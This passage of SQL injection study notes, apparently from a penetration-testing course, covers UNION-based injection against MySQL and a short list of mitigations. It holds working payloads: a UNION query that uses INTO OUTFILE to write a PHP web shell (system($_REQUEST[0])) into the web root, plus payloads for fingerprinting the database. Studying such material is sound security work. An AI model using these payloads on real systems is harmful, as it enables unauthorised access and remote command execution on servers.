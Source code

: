 A `UNION` injection for poof can look like this:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- 
```

##### Writing a Web Shell (PHP)

```php
<?php system($_REQUEST[0]); ?>
```

If we use the `PHP` code from above and inject it to the server, we should have the ability to run commands. When we got to the `/shell.php` file we should be able to pass commands to the `0` parameter with `?0=id` with the URL.

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```

#### Mitigating SQL Injection

If possible restrict valid characters, give the database user the least required permissions, use a `WAF` and parameterized queries.

##### PHP

Use the [mysqli_real_escape_string()](https://www.php.net/manual/en/mysqli.real-escape-string.php)or the [pg_escape_string()](https://www.php.net/manual/en/function.pg-escape-string.php) function.


### MySQL

To ensure that we are working with a `MySQL` Server we can use the following commands.

| Payload       | When to Use | Expected Output | Wrong Output |
| -----------    | ----------- | ----------- | ----------- |
| `SELECT @@version` | When we have full query output | MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`' | In MSSQL it returns MSSQL version. Error with other DBMS. |
| `SELECT POW(1,1)` | When we only have numeric output | `1` | 	Error with other DBMS |
| `SELECT SLEEP(5)` | Blind/No Output | Delays page response for 5 seconds and returns `0`. | Will not delay response with other DBMS |

First we need a client, which is in our case `default-mysql-client`:
```bash 
$ mysql -h [IP] -P [port] -u [username] -p
```
```text
*(-h [IP]        = Connect to the MariaDB server on the given host
  -u [username]  = The MariaDB user name to use when connecting to the server
  -P [port]      = The port to use for the connection
  -p             = The password to use when connecting to the server)
```

1. `SHOW DATBASES;`
2. `USE <database>;`
3. `SHOW TABLES;`
4. `SELECT * FROM <tablename>;`
